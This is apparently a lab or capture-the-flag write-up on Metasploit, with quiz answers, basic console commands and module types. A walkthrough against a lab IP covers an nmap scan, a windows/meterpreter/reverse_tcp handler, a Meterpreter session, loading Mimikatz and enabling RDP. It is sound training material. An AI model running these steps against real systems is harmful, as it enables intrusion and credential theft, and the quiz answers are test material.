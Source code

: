 **WHAT IS METASPLOIT?**  
  It is an open-source penetration testing framework maintained by Rapid 7. Collection of Auxiliary, exploits, and post-exploitation stuff.

```
  Ques 1 -> Initialize DB
  > sudo msfdb init
```
```
  Ques 2 -> Check for advanced triggers 
  > msfconsole -h  
```
```
  Ques 3 -> We can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-' 
  > -q
```
```
  Ques 4 -> After Metasploit has started, let's go ahead and check that we've connected to the   database. Do this now with the command: db_status. Cool! We've connected to the database, which type of database does Metasploit 5 use?  
  > PostgresSQL
```

**Some basic commands**  
*  Set/g - Used to change value of (global)variable
*  Use - For using a module
*  Search - as the name says
*  Unset - Opposite of set as a surprise to no one
*  Spool - Used to set the console output to a save file
*  Save - Used to store/save active settings/datastores from Metasploit
*  Load - Used to load the module
*  Hosts - To view hosts saved in DB
*  Services - To view services saved in DB with respect to hosts
*  Vulns - To view discovered vulnerabilities from the DB with respect to hosts 

**Modules**  
Metasploit have 6 core modules -  
*  Exploit - Contains all the exploit code
*  Payload - Contains various bits of shell code which is usually sent following the exploitation
*  Encoder - Helps in payload obfuscation, and modify the payload to avoid signature detection
*  NOP - Usually used for Buffer OverFlow and ROP attack
*  Auxiliary - Contains modules used for scanning/verification purposes
*  Post-Exploitation - Once in the machine, we can use the modules from this category for more


**Exp**

```
IP = 10.10.222.240
```
Using NMAP within metasploit  
```
db_nmap -sV -sC 10.10.222.240
```
```
Following ports were open - 
135 - msrpc
139 - netbios-ssn
445 - microsoft-ds
3389 - ssl/ms-wbt-server?
5357 - http
8000 - http
```
Hosts and services command show output as follows now
![Alt text](./Hosts_Services.png)  


Using handler exploit found under -  
exploit/multi/handler

Set the payload to -  
Windows/meterpreter/reverse_tcp
```
SET PAYLOAD windows/meterpreter/reverse_tcp
```
And also set the LHOST and RHOST accordingly  

Using _Exploit_. Was able to send the payload and got the meterpreter session  

After the getting the shell, to migrate we used
```
migrate 1264(process of spoolsv.exe.)
```
Failed due to lack of privileges  

Used _sysinfo_ to get more info about system  

Loaded Mimikatz using _Load Kiwi_

Can use upload/download to do as the name says  

Ran a couple of modules  
post/multi/recon/local_exploit_suggester  
post/windows/gather/checkvm  
post/windows/manage/enable_rdp  

![](Some_Meterpreter.png)


